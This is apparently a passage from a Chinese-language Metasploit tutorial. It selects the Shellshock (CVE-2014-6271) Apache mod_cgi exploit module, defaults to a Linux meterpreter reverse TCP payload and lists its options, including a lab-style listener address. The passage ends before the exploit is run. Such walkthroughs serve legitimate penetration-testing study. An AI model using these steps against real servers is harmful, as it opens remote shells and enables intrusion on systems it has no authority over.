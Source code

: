 ```shell

```
我們可在看到 1 為我們想要進行的攻擊

``   1   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
``

##### (2) **use 我們找到的辦法**
可注意到我們的所選的方法變成了紅字了
<pre><u style="text-decoration-style:single">msf6</u> &gt; use exploit/multi/http/apache_mod_cgi_bash_env_exec
<font color="#277FFF"><b>[*]</b></font> No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>multi/http/apache_mod_cgi_bash_env_exec</b></font>) &gt; 
</pre>

##### (3) **設定options**
先輸入
```shell
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > show options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI                        yes       Path to CGI script
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.20.134   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86
```
